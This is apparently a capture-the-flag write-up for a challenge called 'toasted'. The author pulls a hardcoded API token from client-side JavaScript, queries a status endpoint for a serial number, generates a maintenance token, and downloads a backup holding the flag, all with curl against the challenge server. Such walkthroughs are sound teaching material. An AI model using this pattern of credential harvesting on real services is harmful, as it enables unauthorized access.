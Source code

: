 ## toasted

Points: 75

I found a `main.js` file using the Debugger in Firefox Devtools with the following code:
```javascript
// cart logic
$('#toast-form').submit(function (event) {
    var sec = $("#toast-time").val()
    $.post("/api/toast", {"token": "gSNEaD868LJd1DldhZUglykfGwu_NbcLu9d1wmT5luLFTfHV2eVQYI8EupRMi71Cz6qydOc0kgXnGcDoPuUkkA", "time": sec}).done(function (data) {
        if (data.status == 0) {
            M.toast({html: data.message})
        }
    }).fail(function (xhr) {
        let data = JSON.parse(xhr.responseText);
        M.toast({html: data.error})
    })
})
```

Looks like there was a hardcoded token that we could use for the API calls.

I started by trying out every API call, with the token supplied. Eventually, I found that this gave me some interesting information with this call:

```bash
$ curl "http://pwn.osucyber.club:13372/api/status?token=${token}"

{"status":0,"data":{"model":"Hot Stuff 1337","num_toasted":"279","serial":"60AKGPCIAX1AYIVN36M7MSIOXCRQ17ET2U17VUSS","time":"2020-10-24T04:28:11.762Z"}}
```

Cool, we got a serial number and  the number of toasts toasted. Great. After some more poking around, we can see that `api/generate_maintenance_token` needs the serial number of the toaster. After supplying the serial number, we get a maintenance token: `Ck2RtOs2RE1JTBnrOzEyaoC4fl8XfsyeoWtARkoc9ZAXwDAvyIHqMBzpBQhnYJT3ybXlu1BrbIfvVWPIkLpEdw`.

Now we can call `api/download_backup` with this new token:
```bash
$ curl "http://pwn.osucyber.club:13372/api/download_backup?token=${mtoken}"
osuctf{dont_buy_an_int3rnet_connected_t0aster}
```
